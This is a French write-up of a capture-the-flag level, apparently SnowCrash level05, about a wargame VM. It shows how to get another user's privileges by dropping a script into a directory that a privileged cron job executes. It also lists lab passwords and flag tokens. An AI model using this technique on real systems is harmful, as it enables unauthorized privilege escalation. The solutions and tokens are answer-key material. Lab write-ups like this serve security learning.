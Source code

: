 # Level05

> login:password -> *`level05:ne2searoevaevoem4ov4ar8ap`*
```
:~$ su level05
Password:ne2searoevaevoem4ov4ar8ap
```
---

```
:~$ pwd
/home/user/level05
```

```
:~$ ls -la
...
```

Le Home est vide mais on a peu être averti qu'un mail nous attends:

```
:~$ ssh level05@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15
level05@localhost's password:
You have new mail.
```

On va donc essayer de voir ce mail

```
:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Ce mail nous informe qu'une tache cron est planifié et qu'elle execute le script `/usr/sbin/openarenaserver` toutes les 2min sur le user flag05

```
:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

On remarque alors que le script exécute tous les fichiers présents dans `/opt/openarenaserver/` avec `bash`, puis les supprime. Il suffit alors d'y ajouter notre propre script qui exécutera alors la commande `getflag` et conservera son résultat dans un dossier qui lui ne se supprimera pas, par exemple `/tmp/flag`.

```
:~$ echo "getflag > /tmp/flag05" > /opt/openarenaserver/getflag
```

On patiente 2min que cron puisse lancer le script

```
:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

Le flag nous permet de se connecter au level06
`level06:viuaaale9huek52boumoomioc`